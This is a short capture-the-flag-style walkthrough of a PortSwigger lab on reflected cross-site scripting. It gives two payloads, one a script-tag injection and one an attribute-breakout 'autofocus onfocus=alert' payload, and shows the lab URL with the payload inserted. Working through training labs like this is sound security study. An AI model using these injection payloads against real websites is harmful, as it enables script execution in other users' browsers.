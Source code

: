 # Reflected XSS into attribute with angle brackets HTML-encoded

## This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the `alert` function.

when

```javascript
"><script>alert(document.domain)</script>
```

not work then use

```javascript
" autofocus onfocus=alert(document.domain) x=";
```

The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup

---

### step 1

go to lab serach someting
eg test
`https://0acc00f30408c142c0c70891009600dd.web-security-academy.net/?search=test`

replace test with payload
`https://0acc00f30408c142c0c70891009600dd.web-security-academy.net/?search=" autofocus onfocus=alert(document.domain) x="`
